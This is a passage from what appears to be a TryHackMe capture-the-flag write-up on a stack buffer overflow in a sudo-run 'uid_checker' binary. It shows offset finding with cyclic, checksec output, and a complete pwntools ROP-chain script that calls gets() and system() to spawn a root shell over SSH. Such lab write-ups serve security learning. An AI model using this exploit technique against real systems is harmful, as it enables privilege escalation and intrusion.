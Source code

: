 As can be seen in `rsp`, the last value on the stack before the program broke was `waaa`. I fed it back into [pwntools](https://github.com/Gallopsled/pwntools) to find out how many characters I need to force my input onto the stack.

```text
kali@kali:~$ cyclic -l waaa
88
```

However, there's one more thing to mention before I talk about the exploit that I used. Some security features are enabled for this binary. And by "some", I mean executable stack protection (NX). This means I can't just put my own code onto the stack and expect it to work. Fortunately, there's no ASLR and no stack canary enabled, so this makes exploit development a little easier.

```text
pwndbg> checksec
[*] '/home/kali/THM/dave/uid_checker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**Disclaimer.** I didn't have a good grasp on return-oriented programming when I first worked on this challenge. I checked existing writeups, tried to do my research to understand how they work and then went about attempting it myself. For anyone who shares a similar fate, I can only recommend LiveOverflow's video [Introducing Weird Machines: ROP Differently Explaining](https://www.youtube.com/watch?v=8Dcj19KGKWM) to understand how ROP "feels". Also, big shoutouts to @ryaagard on the TryHackMe Discord server for giving me feedback on my understanding of the exploit.

I'm going to try my best to explain two different exploits: the one that I tried to understand and the one that I came up with that ended up being a lot easier than I initially thought.

### Pop, pop and then some magic

You may have already seen this exploit if you checked out any of the other existing writeups. I'm going to let the code sink in and then pull it apart to show what makes it work.

```py
from pwn import *

cyclic_len = 88

payload = cyclic(cyclic_len)

payload += p64(0x400803)    # pop rdi; ret;
payload += p64(0x601000)    # .bss
payload += p64(0x4005b0)    # gets()
payload += p64(0x400803)    # pop rdi; ret;
payload += p64(0x601000)    # .bss
payload += p64(0x400570)    # system()

s = ssh(host='dave.thm', user='dave', keyfile='./id_rsa')
p = s.process([ "sudo", "/uid_checker"])
# Wait for first input
p.recv()
p.sendline(payload)
# Wait for gets() in rop chain
p.recv()
p.sendline("/bin/sh")
# enter shell
p.interactive()
```
